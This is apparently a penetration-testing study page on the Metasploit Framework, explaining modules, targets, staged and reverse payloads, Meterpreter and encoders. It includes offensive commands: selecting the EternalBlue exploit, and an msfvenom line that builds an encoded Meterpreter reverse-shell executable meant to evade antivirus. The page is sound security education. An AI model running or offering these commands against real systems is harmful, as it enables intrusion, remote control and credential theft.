

# Metasploit Framework

## What is Metasploit ?&#x20;

<figure><figcaption></figcaption></figure>

#### What is Metasploit?

* A **Ruby-based penetration testing framework**.
* Used to **find, exploit, validate, and manage vulnerabilities**.
* Provides ready-made exploits, payloads, auxiliary modules, and post-exploitation tools.
* Think of it as a **Swiss Army Knife for Pentesting**

### Some Locations&#x20;


```bash
ls /usr/share/metasploit-framework/modules

ls /usr/share/metasploit-framework/plugins/

ls /usr/share/metasploit-framework/scripts/

ls /usr/share/metasploit-framework/tools/
```


<figure><figcaption></figcaption></figure>

## Modules&#x20;

### Search for Modules&#x20;


```
search <module name>/<vulnerability name>
```


<figure><figcaption></figcaption></figure>

#### Search Filters&#x20;


```
search cve:<id>
search type:exploit
search type:auxiliary
search platform:windows
search rank:excellent
```


<figure><figcaption></figcaption></figure>

### Module Types&#x20;

<table><thead><tr><th width="143">Type</th><th>Description</th></tr></thead><tbody><tr><td><code>Auxiliary</code></td><td>Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.</td></tr><tr><td><code>Encoders</code></td><td>Ensure that payloads are intact to their destination.</td></tr><tr><td><code>Exploits</code></td><td>Defined as modules that exploit a vulnerability that will allow for the payload delivery.</td></tr><tr><td><code>NOPs</code></td><td>(No Operation code) Keep the payload sizes consistent across exploit attempts.</td></tr><tr><td><code>Payloads</code></td><td>Code runs remotely and calls back to the attacker machine to establish a connection (or shell).</td></tr><tr><td><code>Plugins</code></td><td>Additional scripts can be integrated within an assessment with <code>msfconsole</code> and coexist.</td></tr><tr><td><code>Post</code></td><td>Wide array of modules to gather information, pivot deeper, etc.</td></tr></tbody></table>

### Module Information&#x20;

#### Selecting a module&#x20;


```bash
use exploit/windows/smb/ms17_010_eternalblue

# Alternatively, if you searched for the module first, you can select it using its index number.
use 0
```


<figure><figcaption></figcaption></figure>

#### taking module info&#x20;

<figure><figcaption></figcaption></figure>

### Setting Parameters&#x20;

<figure><figcaption></figcaption></figure>

#### Temporary setting


```
set <parameter name> 
unset <parameter name> 
```


#### Permanent setting


```
setg <parameter name>
unsetg <parameter name>
```


### Running module&#x20;


```
run
```



```
exploit
```


<figure><figcaption></figcaption></figure>

## Setting Target

In Metasploit, **Targets** define **how the exploit will deliver and execute the payload on the victim after the vulnerability has been successfully exploited**.


```
Exploit = Gains code execution
Target  = Chooses the execution method
Payload = What runs on the target
```


<figure><figcaption></figcaption></figure>

### Automatic (Target 0)

Metasploit automatically selects the best execution method based on the target environment.

```
set TARGET 0
```

Usually the safest choice.

### PowerShell (Target 1)

After exploitation, Metasploit executes the payload using PowerShell.

**Requirements:**

* PowerShell available on the victim
* Often works well on modern Windows systems

**Advantages:**

* Usually leaves fewer files on disk
* Often more reliable on newer Windows versions

### Native Upload (Target 2)

Metasploit uploads a native Windows executable (`.exe`) containing the payload and executes it.

**Process:**

```
Upload payload.exe     
        ↓
Execute payload.exe
        ↓
Get shell/Meterpreter
```

**Advantages:**

* Simple and reliable

**Disadvantages:**

* Drops a file on disk
* Easier for AV/EDR to detect


_MOF Upload (Target 3) is less commonly used today and don't work perfectly on newer versions of Windows._&#x20;


## Payloads&#x20;

### Single V/s Staged

#### Single&#x20;

Everything is contained in one payload.

```
Attacker
   │
   └── Single Payload ──► Target
                               │
                               └── Shell
```

Example:

```
windows/x64/meterpreter_reverse_tcp
```

Characteristics:

* Self-contained
* More stable
* Larger size
* Immediate execution

#### Staged Payloads&#x20;

Split into multiple parts:

```
Stage 0 (Stager)  → Establish connection
Stage 1 (Stage)   → Download full payload
```

Example:

```
windows/x64/meterpreter/reverse_tcp
```

Structure:

```
windows/x64/meterpreter/reverse_tcp
           │
           ├── meterpreter = Stage
           └── reverse_tcp = Stager
```

Flow:

```
Target
   │
   ├── Stage 0 (small stager)
   │      │
   │      └── Connects back to attacker
   │
   └── Downloads Stage 1
              │
              └── Meterpreter
```

Advantages:

* Smaller initial shellcode
* Better for large payloads
* More flexible
* Commonly used in real engagements

### Reverse V/s Bind&#x20;

#### Reverse TCP

Victim connects back to attacker.

```
Victim ─────► Attacker
```

Example:

```
windows/x64/meterpreter/reverse_tcp
```

Most commonly used because outbound traffic is usually allowed through firewalls.

#### Bind TCP

Victim opens a port and waits.

```
Attacker ─────► Victim
```

Example:

```
windows/x64/meterpreter/bind_tcp
```

Requires inbound connectivity to the victim.

## Meterpreter&#x20;

**Meterpreter** (Meta-Interpreter) is an advanced Metasploit payload that runs **in memory** on the target and provides a powerful post-exploitation shell.

Compared to a normal shell (`cmd.exe`, `/bin/sh`, PowerShell), Meterpreter provides:

* File upload/download
* Process migration
* Privilege escalation modules
* Screenshot capture
* Keylogging (if authorized)
* Port forwarding
* Network pivoting
* Credential harvesting modules
* Access to Metasploit post-exploitation features


_A normal shell is just command execution. Meterpreter is a full post-exploitation framework._


### Getting Meterpreter from a Normal Shell&#x20;


```
sessions -u <session id>

post/multi/manage/shell_to_meterpreter
```


## Encoder&#x20;

An **encoder modifies a payload's byte structure** while preserving its functionality.

#### Main Purposes

1. **Remove bad characters**
2. **Support different architectures**
3. **Attempt AV/IDS evasion** (less effective today)

> Encoders change how the payload looks, not what it does.

#### See a list of encoders&#x20;


```
show encoders
```


<figure><figcaption></figcaption></figure>

### Shikata Ga Nai (SGN)&#x20;

Most famous Metasploit encoder:

```
x86/shikata_ga_nai
```

Meaning:

```
"It cannot be helped"
```

Characteristics:

* Polymorphic XOR encoder
* Changes payload appearance every time
* Historically effective against AV


_Old AV → Often bypassed_
\
_Modern AV/EDR → Usually detects it_



```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o <shel>
```


<figure><figcaption></figcaption></figure>

